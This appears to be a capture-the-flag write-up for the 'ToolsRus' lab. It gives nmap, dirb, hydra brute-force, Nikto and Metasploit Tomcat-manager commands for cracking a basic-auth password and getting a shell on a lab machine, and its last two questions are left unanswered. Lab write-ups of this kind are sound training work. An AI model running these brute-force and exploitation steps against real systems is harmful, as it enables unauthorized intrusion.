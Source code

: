 # ToolsRus

## 1. What directory can you find, that begins with a "g"?

 First set up an environment variable to type commands more quickly.  

 `:> export server='10.201.71.243`

 Second, what targets are available  

 `:> nmap $server`  

 ![Nmap 1](assets/tools-01.png)

 What runs on the identified ports.  

 `:> nmap $server -sV`

 ![Nmap 2](assets/tools-02.png)

 Start with port 80  

 `:> dirb http://$server /usr/share/wordlists/dirb/big.txt`

 ![Nmap 2](assets/tools-03.png)

## 2. Whose name can you find from this directory?

 Download and see what is received.  

 `:> wget http://$server/<answer-to-previous-queestion>/`  

 ![WGET](assets/tools-04.png)  

 Check the contents  

 `:> cat <answer-to-previous-question>`  

 ![Guidelines Contents](assets/tools-05.png)  


## 3. What directory has basic authentication?

 Previously answered  

 ![Authentication Directory](assets/tools-03.png)

## 4. What is bob's password to the protected part of the website?

 `:> hydra -l "bob" -P /usr/share/wordlists/rockyou.txt 10.201.71.243 http-get /protected -f -o output.txt`  

![Authentication Directory](assets/tools-06.png)

## 5. What other port that serves a webs service is open on the machine?

 Previously Discovered  

## 6. What is the name and version of the software running on the port from question 5?

 Simply visit the server on the correct port from question 5.  

## 7. Use Nikto with the credentials you have found and scan the /manager/html directory on the port found above. How many documentation files did Nikto identify?

Not all the vulnerabilities are named in the same format.

![Nikto Scan](assets/tools-07.png)

## 8. What is the server version?

 Previously Discovered

## 9. What version of Apache-Coyote is this service using?

 Already Discovered  

## 10. Use Metasploit to exploit the service and get a shell on the system. 

Start Metasploit with `:> msfconsole` and conduct a search for Tomcat with `:> search tomcat`. Option 64 is the manager login vulnerability. ` user 64` will load the exploit.  

![Start Metasploit](assets/tools-08.png)

Once the exploit is loaded, `show options` and begin editing the parameters with known information.
````bash
set PASS_FILE /usr/share/wordlists/rockyou.txt
set RHOSTS 10.201.108.97
set RPORT 1234
set USER_FILE /usr/share/wordlists/SecLists/Usernames/Names/names.txt
exploit
````
![Ready to Exploit](assets/tools-09a.png)


## 11. What user did you get a shell as?

## 12. What flag is found in the root directory?